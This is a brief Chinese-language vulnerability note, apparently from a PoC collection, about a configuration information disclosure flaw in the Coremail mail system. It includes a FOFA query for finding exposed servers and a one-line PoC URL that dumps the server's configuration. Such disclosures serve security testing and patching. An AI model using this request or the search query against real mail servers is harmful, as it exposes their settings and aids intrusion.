 # Coremail-配置信息泄露漏洞

##  漏洞描述

Coremail 某个接口存在配置信息泄露漏洞，其中存在端口，配置信息等

## 漏洞影响

> [!NOTE]
>
> Coremail-配置信息泄露漏洞

## FOFA

> [!NOTE]
>
> app="Coremail邮件系统"

## 漏洞复现

POC为

```
http://xxx.xxx.xxx.xxx/mailsms/s?func=ADMIN:appState&dumpConfig=/
```

![](Coremail-配置信息泄露漏洞.assets/1627363152396676.jpg)

## Goby & POC

> [!NOTE]
>
> Coremail configuration information disclosure

![](Coremail-配置信息泄露漏洞.assets/1627363152794697.jpg)